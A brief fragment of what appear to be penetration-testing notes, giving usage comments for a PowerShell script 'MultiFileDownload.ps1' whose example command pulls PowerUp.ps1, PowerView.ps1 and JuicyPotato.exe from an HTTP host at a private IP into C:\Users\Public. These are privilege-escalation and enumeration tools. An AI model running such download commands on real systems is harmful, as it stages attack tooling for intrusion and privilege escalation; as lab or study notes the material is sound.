 # allmix

## LISTS

# MultiFileDownload.ps1
# if on cmd type powershell
# .\MultiFileDownload.ps1 -HostUrl "http://192.168.119.172:8080" -FileNames "PowerUp.ps1", "PowerView.ps1", "JuicyPotato.exe" -Destination "C:\Users\Public\"
